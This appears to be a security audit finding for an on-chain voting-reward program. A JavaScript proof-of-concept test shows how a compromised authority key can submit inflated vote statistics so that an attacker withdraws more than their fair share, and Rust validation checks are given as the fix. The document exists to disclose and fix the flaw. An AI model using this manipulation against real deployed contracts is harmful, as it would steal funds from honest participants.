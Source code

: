 ### Impact

- **Attacker steals from honest participants**
- **Undermines voting mechanism integrity**
- **Requires compromised authority key** (realistic if backend hacked)
- **Can be repeated** across multiple runs

### Proof

```javascript
it("allows vote stat manipulation", async () => {
  // Attacker has 3 correct votes in reality
  const actualCorrect = 3;
  
  // But calls update with fake stats
  await program.methods
    .updateVoteStats(RUN_ID, attackerPubkey, 12, 12) // ❌ Lie!
    .accounts({ authority: platformAuthority })
    .signers([platformAuthority])
    .rpc();
  
  // Later during withdrawal
  await program.methods.withdraw(RUN_ID)
    .accounts({ user: attacker })
    .signers([attacker])
    .rpc();
  
  const participation = await program.account.userParticipation.fetch(
    participationPda
  );
  
  // Attacker got bonus for 12/12 when they only earned 3/12
  const expectedShare = 110_000_000; // Fair share
  const actualShare = participation.finalShare.toNumber();
  assert.ok(actualShare > expectedShare); // ❌ Attacker profited!
});
```

### Fix

Add validation and prevent manipulation:

```rust
require!(total_votes <= 12, ErrorCode::InvalidVoteCount);
require!(correct_votes <= total_votes, ErrorCode::InvalidVoteCount);

// Prevent overwriting (append-only)
require!(
    total_votes >= participation.total_votes,
    ErrorCode::VoteCountDecreased
);

// Consider: Store individual vote results on-chain for auditability
```

---
